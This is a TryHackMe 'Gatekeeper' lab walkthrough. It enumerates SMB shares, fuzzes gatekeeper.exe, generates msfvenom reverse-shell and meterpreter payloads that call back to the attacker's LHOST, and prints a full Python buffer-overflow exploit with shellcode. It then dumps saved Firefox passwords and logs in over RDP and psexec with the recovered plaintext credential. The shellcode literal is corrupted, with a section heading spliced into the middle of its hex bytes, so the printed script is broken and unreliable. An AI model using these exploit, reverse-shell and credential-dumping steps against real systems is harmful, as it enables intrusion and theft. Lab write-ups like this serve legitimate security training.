*2021-09-06*

*kimm3*

# Walkthrough: Gatekeeper
Platform: TryHackMe

Difficulty: Medium

- [Link](https://tryhackme.com/room/gatekeeper)

## Setup


```
script history/enum1
export IP=10.10.117.123
```

(Responds to ping)
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`



SMB+rdp standard ports, some windows rpc and that 31337 port.



One available share, Users.



Looking around, there's one folder with an executable, and one (copy?) of a home folder. Retrieving both for further enumeration.

```
recurse ON
prompt OFF
mget *
```


The service at 31337:



Seems to respons 'Hello' to every input and the input appended to it.

Starting up the 'gatekeeper.exe' on a windows box:





Seems to be the same software.

## Bof prep for gatekeeper.exe
```
```
### Fuzzing




It's fuzzable.
### Offset




Offset: 146
### Check offset and bad characters


We sent all C's so offset is correct.

In Immunity Debugger:
```
!mona bytearray -b "\x00"
!mona compare -f "C:\Program Files(x86)\Immunity Inc\Immunity Debugger\bytearray.bin" -a
```





Removing "\x0a" works.

### EIP jmp esp address


`!mona jmp -r esp gatekeeper.exe`
### Payload
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.1 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

Seems to be working.
## Exploiting target
Generating new payload.

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

Exploit script:

```
#!/usr/bin/python3

import socket

# socket values
ip = "10.10.15.176"
port = 31337

# sendbuff values
cmd = ""
offset = 146
overflow = "A" * offset
eip_val = "\xc3\x14\x04\x08"
nops = "\x90" * 16
payload = ("\xd9\xc0\xd9\x74\x24\xf4\xbf\xf6\x88\x51\xbe\x5b\x31\xc9\xb1"
"\x52\x83\xc3\x04\x31\x7b\x13\x03\x8d\x9b\xb3\x4b\x8d\x74\xb1"
"\xb4\x6d\x85\xd6\x3d\x88\xb4\xd6\x5a\xd9\xe7\xe6\x29\x8f\x0b"
"\x8c\x7c\x3b\x9f\xe## Privilege escalation0\xa8\x4c\x28\x4e\x8f\x63\xa9\xe3\xf3\xe2"
"\x29\xfe\x27\xc4\x10\x31\x3a\x05\x54\x2c\xb7\x57\x0d\x3a\x6a"
"\x47\x3a\x76\xb7\xec\x70\x96\xbf\x11\xc0\x99\xee\x84\x5a\xc0"
"\x30\x27\x8e\x78\x79\x3f\xd3\x45\x33\xb4\x27\x31\xc2\x1c\x76"
"\xba\x69\x61\xb6\x49\x73\xa6\x71\xb2\x06\xde\x81\x4f\x11\x25"
"\xfb\x8b\x94\xbd\x5b\x5f\x0e\x19\x5d\x8c\xc9\xea\x51\x79\x9d"
"\xb4\x75\x7c\x72\xcf\x82\xf5\x75\x1f\x03\x4d\x52\xbb\x4f\x15"
"\xfb\x9a\x35\xf8\x04\xfc\x95\xa5\xa0\x77\x3b\xb1\xd8\xda\x54"
"\x76\xd1\xe4\xa4\x10\x62\x97\x96\xbf\xd8\x3f\x9b\x48\xc7\xb8"
"\xdc\x62\xbf\x56\x23\x8d\xc0\x7f\xe0\xd9\x90\x17\xc1\x61\x7b"
"\xe7\xee\xb7\x2c\xb7\x40\x68\x8d\x67\x21\xd8\x65\x6d\xae\x07"
"\x95\x8e\x64\x20\x3c\x75\xef\x45\xc9\xa7\x9c\x31\xcb\x47\x62"
"\x79\x42\xa1\x0e\x6d\x03\x7a\xa7\x14\x0e\xf0\x56\xd8\x84\x7d"
"\x58\x52\x2b\x82\x17\x93\x46\x90\xc0\x53\x1d\xca\x47\x6b\x8b"
"\x62\x0b\xfe\x50\x72\x42\xe3\xce\x25\x03\xd5\x06\xa3\xb9\x4c"
"\xb1\xd1\x43\x08\xfa\x51\x98\xe9\x05\x58\x6d\x55\x22\x4a\xab"
"\x56\x6e\x3e\x63\x01\x38\xe8\xc5\xfb\x8a\x42\x9c\x50\x45\x02"
"\x59\x9b\x56\x54\x66\xf6\x20\xb8\xd7\xaf\x74\xc7\xd8\x27\x71"
"\xb0\x04\xd8\x7e\x6b\x8d\xf8\x9c\xb9\xf8\x90\x38\x28\x41\xfd"
"\xba\x87\x86\xf8\x38\x2d\x77\xff\x21\x44\x72\xbb\xe5\xb5\x0e"
"\xd4\x83\xb9\xbd\xd5\x81")
post = "\r\n"

sendbuffer = cmd + overflow + eip_val + nops + payload + post

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(3)
s.connect((ip, port))
s.send(sendbuffer.encode('latin1'))
```



## Further enumeration
`systeminfo`



`sc queryex type= service | find /i "SERVICE_NAME"`



Powershell dosen't seem to be installed. Trying to generate a merp as payload for further enumeration.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`



It works and we can post modules to further enumerate, like installed apps:


## Privilege escalation
Since firefox is installed we can see if there's any saved credentials.





Dumping the possible credentials.





After retrieving the files we have to rename them back to their original name, then we can run firefox_decrypt. As long as there's no master password we'll get all saved passwords.

Two valid ways to get in as mayor is either via rdp or smb/psexec.

`xfreerdp /v:$IP /u:mayor /p:8CL7O1N78MdrCIsV`



`psexec.py mayor:8CL7O1N78MdrCIsV@$IP`


